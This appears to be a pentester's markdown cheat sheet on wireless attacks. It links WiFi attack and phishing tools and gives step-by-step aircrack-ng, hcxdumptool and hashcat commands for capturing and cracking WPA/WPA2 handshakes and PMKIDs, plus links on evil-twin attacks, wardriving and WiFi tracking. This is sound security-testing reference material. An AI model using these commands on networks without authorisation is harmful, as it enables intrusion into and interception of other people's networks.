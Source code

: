 # Wireless

## Airgeddon

https://github.com/v1s1t0r1sh3r3/airgeddon

## wifite2

Attack multiple WEP and WPA encrypted networks at the same time.

https://github.com/derv82/wifite2

## WIFIPhisher

Phishing attack tool for Wifi networks

https://github.com/wifiphisher/wifiphisher

##
```
aircrack-ng captured.cap​
aircrack-ng -a 2 -b <BSSID> -w wordlist captured.cap​
```
## WPA/WPA2 PMKID

STEP 1:
https://github.com/ZerBea/hcxdumptool
https://github.com/aircrack-ng/aircrack-ng

STEP 2: Find target BSSID:
airodump-ng <int>

STEP 3: Add BSSID in ‘bssid.txt’ and use ‘hcxdumptool’:
hcxdumptool -i <int> --filterlist=bssid.txt --filermode=2 --enable_status=2 -o pmkid.pcap

STEP 4: Extract PMKID into hashcat format for cracking:
(link: https://github.com/ZerBea/hcxtools) github.com/ZerBea/hcxtools
hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap

STEP 5: Crack:
hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt

> https://mobile.twitter.com/netmux/status/1097908867374215168

## WPA enterprise (evil tween attack)
- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://rootsh3ll.com/evil-twin-attack/

## WiFi Wardriving with Android
- WiGLE WiFi Wardriving: https://play.google.com/store/apps/details?id=net.wigle.wigleandroid&hl=en

## Tracking
- Tracking All the WiFi Things: https://osintcurio.us/2019/01/15/tracking-all-the-wifi-things/
## References

### New References
- How to Make a Captive Portal of Death: https://medium.com/bugbountywriteup/how-to-make-a-captive-portal-of-death-48e82a1d81a
